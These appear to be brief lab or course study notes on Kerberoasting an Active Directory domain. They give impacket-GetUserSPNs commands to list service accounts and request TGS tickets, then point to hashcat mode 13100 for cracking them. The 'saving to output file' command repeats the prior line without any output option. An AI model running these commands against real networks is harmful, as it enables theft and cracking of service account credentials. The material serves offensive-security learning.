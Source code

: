 
Listing SPN Accounts 
```
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
Requesting all TGS Tickets
```
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```
only for a user
```
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
saving to output file 
```shell-session
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
then crack with hashcat using `-m 13100`
